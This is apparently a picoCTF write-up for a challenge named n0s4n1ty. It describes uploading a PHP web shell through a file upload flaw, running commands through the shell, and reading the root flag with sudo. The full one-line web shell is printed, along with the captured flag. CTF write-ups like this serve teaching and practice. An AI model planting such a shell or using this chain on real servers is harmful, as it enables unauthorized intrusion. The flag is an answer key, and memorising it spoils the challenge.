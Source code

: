 # Step by step breakdown

**🔥 Exploited file upload vulnerability → PHP shell → Sudo privilege → Captured flag. No reverse shells needed this time.**

I first started off by trying to run a classic php shell through the file upload vulnerability

![SHELLupload](../media/Screenshots/file-up-n0s4n1ty.png)

## file contents

    <?php
    echo "<pre>";
    system($_GET['cmd']);
    echo "</pre>";
    ?>
---

I saved this code to a file and named it shell.php and uploaded it through the file upload functionality


![SHELLupload](../media/Screenshots/Shell-upload-output-n0s4n1ty.png)

afterwards I traversed to the URL where the file I executed a simple whoami command by appending '?cmd=whoami' to the URL


![whoamioutput](../media/Screenshots/whoami-output-n0s4n1ty.png)


With www-data I cannot access the /root directory, so I know I have to try some light privilege escalation techniques. I start by trying the sudo -l command which outputs:


![sudo-loutput](../media/Screenshots/sudo-l--output-n0s4n1ty.png)


which leads me to believe that I can simply access the root directory with sudo privileges without having to escalate to a root user, so I run

    ls -la /root

to view all the files in root directory


![rootoutput](../media/Screenshots/ls-root-n0s4n1ty.png)


Then it's BBQ chicken from there

!['loki gif'](../media/gifs/Devious-ahh-loki.gif)


# Capturing the flag 🏁

    sudo cat /root/flag.txt

![flagoutput](../media/Screenshots/flag-n0s4n1ty.png)

    picoCTF{wh47_c4n_u_d0_wPHP_8ca28f94}

Flag captured. Game over. 🎯

!['loki gif'](../media/gifs/tom-hiddleston-loki-wink.gif)


# Lessons learned

Don't waste time trying to launch reverse shells on rooms like this cuz they're hosted on AWS and more than likely won't let you establish a connection and you'll spend twenty minutes trying to figure out what's wrong only to find out that you should have just stuck with the webshell instead of trying to be a ghetto red team operator

!['loki gif'](../media/gifs/Frustrated-loki.gif)

